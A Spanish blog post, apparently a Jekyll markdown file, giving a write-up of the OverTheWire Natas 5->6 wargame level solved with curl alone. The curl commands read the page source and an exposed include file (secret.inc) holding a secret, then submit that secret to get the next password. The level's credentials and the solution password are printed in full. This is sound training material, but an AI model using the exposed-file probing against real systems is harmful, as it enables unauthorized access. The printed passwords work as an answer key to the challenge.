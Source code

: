 ```yaml
---
title: OverTheWire - Natas 5 -> 6 (sin navegador)
layout: post
post-image: /assets/images/gatohacker1.jpg 
description: La resolución de Natas 5 -> 6 sin el uso de un navegador web.
tags:
- OverTheWire
- Natas
- post
- writeups
---
```

# Información
---

> Las contraseñas cambian cada cierto tiempo, existe la posibilidad de que esta contraseña ya no sea válida

```
Username: natas6
Password: aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
URL:      http://natas6.natas.labs.overthewire.org
```

# Solución
---

Primero ejecutamos el comando curl con el parámetro `-u` para indicar las credenciales. 

```bash
curl -u natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org/
```

![](/images/images-otw-natas/natas5-6-1.png)

Notamos que se está pidiendo un **secret** el cual debemos ingresar para obtener la contraseña.

![](/images/images-otw-natas/natas5-6-2.png)

Un poco más abajo vemos un link que nos muestra el código fuente del formulario que vimos arriba.

![](/images/images-otw-natas/natas5-6-3.png)

Si accedemos a ese archivo obtenemos lo siguiente:

```bash
curl -u natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org/index-source.html 
```

![](/images/images-otw-natas/natas5-6-4.png)

Para solucionar esto haremos uso de la herramiento `html2text` que se puede instalar con `sudo apt install html2text`.

```bash
curl -u natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org/index-source.html | html2text 
```

![](/images/images-otw-natas/natas5-6-7.png)

Observamos la lógica del formulario ubicado en la página principal que nos pedía un secreto.

![](/images/images-otw-natas/natas5-6-5.png)

Notamos que está escrito en PHP, y que hace una comparación de nuestro input contra `$secret`. Hay un archivo llamado `secret.inc` donde debería estar el valor de la variable `$secret`.

![](/images/images-otw-natas/natas5-6-6.png)

Si ingresamos al archivo veremos el valor de `$secret`.

```bash
curl -u natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org/includes/secret.inc
```

![](/images/images-otw-natas/natas5-6-8.png)


Volvemos a la página principal, enviamos nuestros datos con el parámetro `-d` con el valor `secret=FOEIUWGHFEEUHOFUOIU` y submit que puede ser lo que sea.

```bash
curl -u natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org/ -d 'secret=FOEIUWGHFEEUHOFUOIU&submit=holaaaaaaa'
```

![](/images/images-otw-natas/natas5-6-9.png)

# Contraseña
---

`7z3hEENjQtflzgnT29q7wAvMNfZdh0i9`

---

## [Anterior](/level-4-5)
## [Siguiente](/level-6-7)